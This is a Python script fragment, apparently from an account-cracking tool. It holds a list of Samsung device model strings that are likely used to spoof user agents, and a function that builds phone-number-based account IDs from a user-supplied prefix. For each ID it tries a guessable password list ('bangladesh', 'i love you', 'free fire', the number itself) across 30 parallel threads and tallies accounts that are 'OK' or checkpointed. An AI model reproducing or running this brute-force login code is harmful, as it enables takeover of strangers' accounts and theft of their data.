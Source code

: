 xxxxx=(f"GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
#
def bd():
                user=[]
                pcp=[]
                clear()
                pcp.append(f'y')
                print('\033[1;32m [+] Example: 017, 018, 019, 013, 016')
                linex()
                code = input('\033[1;37m [?] Put code: ')
                try:
                        limit = int(input('\n\033[1;32m [+] Example: 3000, 5000, 10000, 50000\n\033[1;37m [?] Put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(8))
                        user.append(nmp)
                with tred(max_workers=30) as sat:     
                        clear()
                        tl = str(len(user))
                        print(f'\033[1;37m [+] Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m [+] Choice code :\033[1;32m '+code)
                        print(f'\033[1;37m [+] Prosess has started\033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'bangladesh','Bangladesh','i love you','iloveyou','free fire','Free Fire']
                                sat.submit(apix,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
